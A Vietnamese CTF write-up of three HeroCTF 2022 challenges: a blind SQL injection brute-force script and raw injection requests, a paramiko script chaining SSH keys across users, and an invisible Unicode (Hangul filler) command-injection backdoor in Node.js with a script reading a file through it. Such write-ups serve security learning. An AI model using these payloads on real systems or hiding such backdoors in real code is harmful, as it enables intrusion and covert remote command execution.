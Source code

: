 # HeroCTF 2022

## BlackCat

**Description**: Ayo nạp email và sau 3 ngày email mày sẽ được validate từ đó có thể tham gia cái event này vui lắm(flag).

Đây là 1 bài blackbox nên tối mờ tối mịt, khó là ở chỗ foothold, không có hint chắc người thiếu kiên nhẫn như mình đòi bỏ quộc.

1. Cho 1 endpoint curl đến với 1 email, trả về 1 endpoint khác cùng secret.
2. Curl đến endpoint trả về trên cùng email và secret thi được `ayo!! 3 ngày`

Làm gì đây, là 1 hacker thì phải đa nghi đi test tất chứ, thử SQLi vào email endpoint thứ nhất thì đúng là nó dính(trigger error bằng comment hoặc `e@b.c', 'secret')-- -` mà curl với secret trên đúng là chuẩn rồi)

Mình muốn nhấn mạnh mình cần đa nghi nhiều hơn nữa và test tất, đã thử là thử cho ra trò, xem xét req valid với res valid và error khi test các kí tự đặc biệt.

Tiếp build python script brute-force tìm table và column:
```python
import requests
import string

characters = string.ascii_letters + string.digits + string.punctuation
url = 'https://blackcat.web.heroctf.fr/api/newsletter.php'
s = requests.Session()


headers = {
    'User-Agent': 'curl/7.83.0',
    'Accept': '*/*',
    'Content-Type': 'application/x-www-form-urlencoded'
}

flag = ''
while True:
    for c in characters:
        data = {
            'email': f"hello16@abc.com', (SELECT CASE WHEN (SELECT ascii(substring((SELECT email FROM newsletter limit 0,1),{len(flag)+1},1)))={ord(c)} THEN '1' ELSE 1/0 END)) ON DUPLICATE KEY UPDATE secret=secret-- -"
            # 'email': "hello16@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=1-- -"
        }

        r = s.post(url, data=data, headers=headers)
        print(flag+c)
        if 'ok' in r.json():
            flag += c
            print('[FOUND] : '+flag)
            break
```
1. Tìm được database(): backcat
2. table_name: newsletter
3. columns: email, secret, send_date

Tiếp ta dùng burp đấm(vì nó chỉ cho dùng curl(thật ra thêm header `tao là curl` là được))

### ENDPOINT 1
`request`:
```
POST /api/newsletter.php HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*
Content-Length: 84
Content-Type: application/x-www-form-urlencoded

email=devme1@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=DATE('2023-11-22')-- -
```
Ta SQLi ở insert, nếu email trùng thì duplicate update `send_date` cho quá hạn là được!!. À mà quên, ta leak được column vs table_name nhưng không đọc được value trong đó nên ta không đoán được type của send_date là gì. Học làm pentest mà còn hỏi, phải test chứ gì, `int` không được nghĩ đến hàm `date()` để parse date.

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:55 GMT
Content-Type: application/json
Content-Length: 269
X-Powered-By: PHP/7.2.34

{"ok":"Check at /api/check.php with your email as get parameter and this secret: cc58d9ae093cbfb80ebc as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

### ENDPOINT 2
Giai đoạn get flag thôi!!

`request`:
```
GET /api/check.php?email=devme1@abc.com&secret=a HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*


```

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:57 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 268
X-Powered-By: PHP/7.2.34
Vary: Accept-Encoding

We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'<br>Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}<br>BlackCat.
```

**flag**: `Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!`


## SSHs

**Description**: Một bài programing, cho username và password để SSH vào challenge(bắt đầu với user1), sau khi login vào thì nó cho `private_key` của `user2`.

Hướng giải đơn giản thôi, tạo script ssh vào từng user cho đến user thứ 250 là nó chứa flag(trong description).

**Search keyword**: `python ssh socket` tìm được đoạn code rồi edit tí là được: https://0xbharath.github.io/python-network-programming/protocols/ssh/index.html

```python
#!/usr/bin/env python3
import paramiko, sys, getpass

hostname = "chall.heroctf.fr"
username = "user{}"
password = "password123"
port = 10172
key = ''


client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy)
client.connect(hostname, username=username.format(1), password=password, port=port)

stdin, stdout, stderr = client.exec_command('./getSSHKey')
stdin.close()   

out = stdout.readlines()
for line in out:
    key += line

with open('id_rsa', 'w') as f:
    f.write(key)

stdout.close()
stderr.close()
client.close()

for i in range(2, 249):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy)
    client.connect(hostname, username=username.format(248), key_filename='./id_rsa', port=port)
    key = ''

    stdin, stdout, stderr = client.exec_command('cat *')
    stdin.close()   

    out = stdout.readlines()
    for line in out:
        key += line

    with open('id_rsa', 'w') as f:
        f.write(key)
    stdout.close()
    stderr.close()
    client.close()
    if i % 10 == 0:
        print(key)
        print()

print(key)
```
**flag**: `Hero{Th47_w3RE_4_l0t_Of_uS3rS} `

## wherebackdoor

**Description**: Quên rồi nhưng mà tựa là hacker đã hack vào hệ thống và để lại 1 backdoor, mày tim được cái backdoor này không??

Challenges cho source-code:
```js
// .............
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];
// ............
output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
// ...........
```

**Tham khảo**: https://certitude.consulting/blog/en/invisible-backdoor/

=> Dùng "HANGUL FILLER" để dấu backdoor
```
const { timeout,\u3164} = req.query;
// .....

const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',\u3164
    ];
```
Ở đây hacker dùng "HANGUL FILLER" để dấu backdoor, sau đó mỗi lần muốn RCE chỉ cần nạp command vào kí tự này hay tham số này, tham số này sẽ nằm ẩn trong mảng checkCommands mà dev không thể thấy đợi được nạp vào `exec()`


```python
import requests

url = 'https://apibackdoor.web.heroctf.fr'

r = requests.get(url+'/server_health?\u3164=cat ../flag.txt')

print(r.text)
```

**flag**: `Hero{1nv1s1b1e_b4ckd0or_w7f}`

